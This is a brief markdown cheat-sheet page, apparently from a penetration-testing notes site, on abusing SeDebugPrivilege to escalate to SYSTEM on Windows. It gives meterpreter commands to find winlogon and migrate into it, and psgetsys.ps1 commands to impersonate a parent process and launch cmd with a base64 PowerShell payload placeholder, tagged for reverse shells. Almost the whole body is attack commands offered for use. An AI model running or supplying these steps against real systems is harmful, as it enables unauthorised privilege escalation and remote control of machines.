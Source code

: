 ```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "Metasploit", "Reverse Shell"]
---
```


### Tools

{{< tab set1 tab1 >}}Metasploit{{< /tab >}}
{{< tab set1 tab2 >}}psgetsys.ps1{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Inside meterpreter
ps winlogon
```

```console
# Explorer.exe is a good candidate
migrate <PID>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Import module
. .\psgetsys.ps1
```

```console
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <POWERSHELL_3_BASE64>"
```

<small>*Ref: [psgetsys](https://github.com/decoder-it/psgetsystem)*</small>

{{< /tabcontent >}}
